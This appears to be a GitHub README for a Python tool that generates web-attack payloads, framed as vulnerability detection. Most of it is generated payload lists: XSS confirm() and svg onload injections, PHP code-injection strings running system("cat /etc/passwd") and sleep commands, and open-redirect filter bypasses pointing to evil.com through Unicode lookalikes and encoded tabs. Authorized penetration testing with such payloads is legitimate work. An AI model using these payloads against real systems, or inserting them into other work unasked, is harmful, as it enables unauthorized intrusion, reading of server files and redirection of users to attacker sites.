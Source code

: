 # Payload Generator
Payload Generator Tool. These payloads are only help to detect the vulnerability. 

- [x] XSS Payload Generation
- [ ] SSTI Payload Generation
- [ ] HTML Injection Payload Generation
- [x] Open Redirection Payload Generation
- [ ] SQL Injection Payload Generation
- [ ] Command Injection Payload Generation
- [ ] SSI Injection Payload Generation
- [x] PHP Code Injection Payload Generation



## XSS Payloads

### Help

```bash
usage: generator.py xss [-h] [--popup] [--logger] [--oast] [--dom] [--ored] [--oast-domain] [--unique-string] [--waf] [--reverse-payloads] [--urlencode]

options:
  -h, --help          show this help message and exit

XSS Payload Types:
  --popup             Generate Popup Payloads
  --logger            Generate Console.log() Payloads
  --oast              Generate OAST Payloads
  --dom               Generate DOM Payloads
  --ored              Generate ORED Payloads

XSS Payload Options:
  --oast-domain       Set OAST Domain for payloads
  --unique-string     Set Unique String for testing

XSS Payload Mutations:
  --waf               Generate WAF Bypass Payloads
  --reverse-payloads  Generate Reverse Payloads
  --urlencode         Set URL Encoding for payload generator
```

### Generate Popup Payloads

```bash
python3 generator.py xss --popup 
confirm("yDrQfNiA5EdYHhmJIWMw")
confirm`yDrQfNiA5EdYHhmJIWMw`
(confirm`yDrQfNiA5EdYHhmJIWMw`)
{confirm`yDrQfNiA5EdYHhmJIWMw`}
[confirm`yDrQfNiA5EdYHhmJIWMw`]
(((confirm)))`yDrQfNiA5EdYHhmJIWMw`
new class extends confirm`yDrQfNiA5EdYHhmJIWMw`{}
["yDrQfNiA5EdYHhmJIWMw"].find(confirm)
[1337].map(confirm)
<svg/onload="confirm("yDrQfNiA5EdYHhmJIWMw")">
[...]
```

## PHP

### Help

```bash
usage: generator.py php [-h] [--oast-domain] [--unique-string] [--sleep-timeout] [--urlencode]

options:
  -h, --help        show this help message and exit

PHP CI Payload Options:
  --oast-domain     Set OAST Domain for payloads
  --unique-string   Set Unique String for testing
  --sleep-timeout   Set Sleep Timeout

PHP Payload Mutations:
  --urlencode       Set URL Encoding for payload generator
```


### Generate Payloads

```bash
system("cat /etc/passwd")
system("cat /etc/passwd");
;system("cat /etc/passwd");
<?php system("cat /etc/passwd"); ?>
system("sleep 17")
system("sleep 17");
;system("sleep 17");
<?php system("sleep 17"); ?>
system("timeout /T 17")
system("timeout /T 17");
;system("timeout /T 17");
<?php system("timeout /T 17"); ?>
system("echo PLmyJkJgSdo5iQ9lDAnH")
system("echo PLmyJkJgSdo5iQ9lDAnH");
;system("echo PLmyJkJgSdo5iQ9lDAnH");
<?php system("echo PLmyJkJgSdo5iQ9lDAnH"); ?>
[...]
```


## Open Redirection (ORED)

### Help

```bash
usage: generator.py ored [-h] [--oast-domain] [--unique-string] [--whitelisted-domain] [--xss-payloads] [--urlencode]

options:
  -h, --help            show this help message and exit

Open Redirection Payload Options:
  --oast-domain         Set OAST Domain for payloads
  --unique-string       Set Unique String for testing
  --whitelisted-domain 
                        Set Whitelisted domain for testing
  --xss-payloads        Generate XSS Payloads

Open Redirection Payload Mutations:
  --urlencode           Set URL Encoding for payload generator
```

### Generate Payloads

```bash
python3 generator.py ored --oast-domain evil.com --whitelisted-domain github.com
/〱evil.com
〱evil.com
/〵evil.com
〵evil.com
/ゝevil.com
ゝevil.com
/ーevil.com
ーevil.com
/ｰevil.com
ｰevil.com
/%09/evil.com
//%09/evil.com
///%09/evil.com
////%09/evil.com
/%09/evil.com@evil.com
//%09/evil.com@evil.com
///%09/evil.com@evil.com
////%09/evil.com@evil.com
/%09/github.com@evil.com
//%09/github.com@evil.com
///%09/github.com@evil.com
////%09/github.com@evil.com
```

